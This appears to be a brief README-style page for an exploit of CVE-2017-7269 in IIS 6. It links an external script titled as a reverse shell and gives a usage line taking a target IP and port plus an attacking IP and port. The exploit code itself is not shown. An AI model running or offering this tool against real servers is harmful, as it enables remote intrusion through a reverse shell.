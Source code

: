 # CVE-2017-7269

source: [https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6 reverse shell](https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell)

Usage:

```python
python CVE-2017-7269.py <ip> <port> <attacking-ip> <attacking-port>
```

